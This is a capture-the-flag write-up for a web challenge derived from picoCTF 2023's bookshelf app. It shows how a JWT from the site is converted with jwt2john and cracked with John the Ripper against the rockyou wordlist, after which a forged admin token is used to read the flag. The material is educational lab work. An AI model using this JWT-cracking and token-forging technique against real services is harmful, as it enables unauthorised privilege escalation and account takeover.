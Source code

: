 Description: `I came across a web app for bookshelves on picoctf2023 that had a security bug, which I managed to fix. However, despite my efforts, my site is still vulnerable and has been hacked. Can you assist me in identifying the vulnerability?`


### 1. Analysis the problem
- This web application is derived from picoctf2023 and it had a security problem. The author try to fix it but it still vulnerable. Let's check what is the vulnerability on the original version.

- "In this source code, it appears that it first attempts to read the key from a local file `server_secret.txt`, but if the file doesn’t exist, then it instead uses a hardcoded “random” string of `1234` instead." `https://brandon-t-elliott.github.io/java-code-analysis`

- Combined with the information about the problem, we can guess that the author tried to fix this vulnerability by changing the secret key and not sharing the source code, but maybe this secret code is not really good. They can be easily broken.

### 2. Inference verification
- Let's try to crack the secret key from the JWT Token with john-the-ripper.

- Go to the web app and get the JWT Token:`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY4NDY3MTUwNSwiaWF0IjoxNjg0MDY2NzA1LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.IUz5WwBeBeqbUJKQUffoKpKFUcCQZilQML4jv-gpSZA`

 - Convert JWT Token to John hash
 ![jwt2john](jwt2john.png)

```
jwt2john
jwt2john eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY4NDY3MTUwNSwiaWF0IjoxNjg0MDY2NzA1LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.IUz5WwBeBeqbUJKQUffoKpKFUcCQZilQML4jv-gpSZA
jwt2john eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY4NDY3MTUwNSwiaWF0IjoxNjg0MDY2NzA1LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.IUz5WwBeBeqbUJKQUffoKpKFUcCQZilQML4jv-gpSZA > jwt.hash
```

 - Start to crack it use *rockyou* wordlist.
![crack](crack.png)
```
john --wordlist=/usr/share/wordlists/rockyou.txt jwt.hash
```
- And we got the secret key, now you can modify the JWT Token to get the Admin permission to read the flag book.

![flag.png](flag.png)
```
Flag: FIA{|3rute_F0rce_JWT_1s_S0_E@sy}
```
